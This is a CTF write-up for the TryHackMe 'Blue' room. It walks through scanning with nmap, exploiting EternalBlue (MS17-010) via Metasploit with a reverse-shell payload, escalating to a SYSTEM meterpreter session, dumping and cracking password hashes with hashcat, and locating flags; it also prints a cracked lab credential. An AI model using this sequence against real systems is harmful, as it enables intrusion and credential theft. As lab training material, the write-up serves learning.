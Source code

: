```yaml
---
layout: default
title: Blue
parent: TryHackMe
grand_parent: CTF (writeup)
permalink: /ctf/tryhackme/blue.html
last_modified_date: 1 FEB 2022
---
```

Windows
{: .label }

EternalBlue
{: .label .label-blue }
Room: [tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## Reconnaissance
First we need to do Reconnaissance.
Just another port scanning :D


``` bash
$ nmap -sV -vv --script vuln TARGET-IP
```

### Task 1 - Question
Port under 1000?
![nmap-port](/images/blue01.jpg)

What is this machine vulnerable to?
![nmap-vuln](/images/blue02.jpg)

___
## Gain Access
1. Start metasploit 
1. Search an exploit for **(ms170-010)**
1. Use the exploit
``` bash
msf> exploit/windows/smb/ms17_010_eternalblue
```
1. Set **RHOSTS** value
1. Set payload
``` bash
set payload windows/x64/shell/reverse_tcp
```
1. Run the exploit & pray :D 
1. If succeed. Background this shell **(CTRL+Z)** 
![blue-session](/images/blue03.jpg)

___
## Escalate
Escalate privileges & upgrade shells in metasploit.
1. Search **shell_to_meterpreter** - Result: **post/multi/manage/shell_to_meterpreter**
1. Use it :D 
1. set session & run (be patient & wait)
<br>(NOTE: If you dont know how, go back & learn to use metasploit :D)
![blue-meterpreter](/images/blue04.jpg)
1. List all of the processes running via thex 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
![blue-ps](/images/blue05.jpg)
1. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step.
![blue-migrate](/images/blue06.jpg)

____
## Cracking
Dump the non-default user's password and crack it!

1. Within our elevated meterpreter shell, dump all of the passwords. 
![blue-dump](/images/blue07.jpg)
1. Copy the password hash & crack it.
``` bash 
$ hashcat -a 0 -m 1000 crack.txt /usr/share/wordlists/rockyou.txt
```
Result: **Jon:alqfna22**

___
## Find flags!
### Flag 1
Hint: Can you "C" it? So flag1 is located on C:\

### Flag 2
Hint: I wish I wrote down where I kept my password. Luckily it's still stored here on Windows.
"On Windows" maybe is on \Windows\ ? :V

### Flag 3
This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

Maybe is located on \User\Documents\ ? 



